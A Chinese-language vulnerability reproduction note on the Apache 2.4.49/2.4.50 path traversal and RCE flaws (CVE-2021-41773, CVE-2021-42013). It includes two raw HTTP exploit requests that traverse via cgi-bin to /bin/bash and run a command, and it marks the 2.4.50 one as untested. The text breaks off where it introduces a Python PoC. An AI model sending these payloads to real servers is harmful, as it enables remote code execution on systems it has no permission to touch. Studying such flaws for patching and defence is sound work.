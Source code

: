 # 漏洞简述

Apache 中间件http服务存在目录穿越漏洞，如果文档根目录以外的文件不受`require all denied`保护，则攻击者可以访问这些文件。

![image](C:\Users\jie\Downloads\image.png)

# 影响范围

2.4.49---CVE-2021-41773

2.4.50---CVE-2021-42013

# 漏洞复现

需要apahce开着mod_cgi，如下图

![img](https://cdn.nlark.com/yuque/0/2021/png/21923359/1633937873113-96d33f3b-0b70-4b2a-9170-80df1d93d0d9.png)

POST包（2.4.49版本）：

```java
GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0
Content-Length: 7

echo;id
```

使用cgi，目录穿越到/bin/bash，可以执行bash命令，即可实现RCE；

POST包（2.4.50版本）：

2.4.50版本的漏洞与2.4.49版本是一个位置，只是官方修复不严格，而出现的一次绕过，对比一下，发现是对.的URL编码中的2和e再次做了一次URL编码；

**注：2.4.50版本暂未找到环境测试验证，网上流传的是用的这个poc，下方脚本中的2.4.50版本的部分也是未实际做验证**

```
GET /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0
Content-Length: 7

echo;id
```

# poc

编写脚本时，遇到一个坑，用burp测试没有问题的poc，即URL部分，Python请求有问题，大概内容为Your browser sent a request that this server could not understand. ，最终一点点测试，用wireshark对请求抓包，发现是Python请求时，会自动先做一次URL解码，但却不对%25解码，所以就有了下面的poc，与上面burp的poc对比一下就明白了。